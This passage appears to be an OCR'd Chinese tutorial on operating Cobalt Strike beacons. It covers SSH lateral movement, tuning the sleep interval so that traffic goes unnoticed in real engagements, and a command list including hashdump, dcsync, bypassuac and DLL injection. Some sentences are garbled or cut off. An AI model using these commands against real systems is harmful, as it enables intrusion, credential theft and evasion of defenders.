 Beacon命令: ssh [target:port] [user] [pass]

②SSH密匙连接

Beacon命令: ssh [target:port] [user] [pass]

连接成功后，如图就会出现一个子Beacon：

### Beacons的使用

右键目标主机，点击Interact即会进入我们的beacon。如图：



进入beacon模式之后，我们首先要修改CS默认的**心跳时间**（sleep）。一般情况下CS默
认的心跳时间为60s，即每一分钟目标主机与我们的Teamserver服务器进行交互。那这
样的话就会让我们执行操作的响应速度会变慢。如果实战中就建议不要太快，不然流量
会被很快发现。如果是实验，那我们一般都是设置为0或者1。
如图：
在Beacon中设置也行
如果我们要执行系统命令，就要使用shell+系统命令。而不能直接使用cmd命令等。如
图：
请注意，信标是异步有效负载。命令不会立即执行。每个命令进入队列。当Beacon签入（连接到
默认情况下，信标每60秒检查一次。您可以使用Beacons sleep命令更改此设置。使用sleep加
要每秒进行一次信标检查多次，请尝试sleep 0。这是交互模式。在这种模式下，命令将立即执行

也可以直接执行CS中自带的beacon命令 例如

Beacon Commands
===============
    Command                   Description
    -------                   -----------
    argue                     Spoof arguments for matching
processes
    blockdlls                 Block non-Microsoft DLLs in child
processes
    browserpivot              Setup a browser pivot session
    bypassuac                 Spawn a session in a high integrity
process
    cancel                    Cancel a download that's in￾progress
    cd                        Change directory
    checkin                   Call home and post data
    clear                     Clear beacon queue
    connect                   Connect to a Beacon peer over TCP
    covertvpn                 Deploy Covert VPN client
    cp                        Copy a file
    dcsync                    Extract a password hash from a DC
    desktop                   View and interact with target's
desktop
    dllinject                 Inject a Reflective DLL into a
process
    dllload                   Load DLL into a process with
LoadLibrary()
    download                  Download a file
    downloads                 Lists file downloads in progress
    drives                    List drives on target
    elevate                   Try to elevate privileges
    execute                   Execute a program on target (no
output)
    execute-assembly          Execute a local .NET program in-memory
on target
    exit                      Terminate the beacon session
    getprivs                  Enable system privileges on current
token
    getsystem                 Attempt to get SYSTEM
    getuid                    Get User ID
    hashdump                  Dump password hashes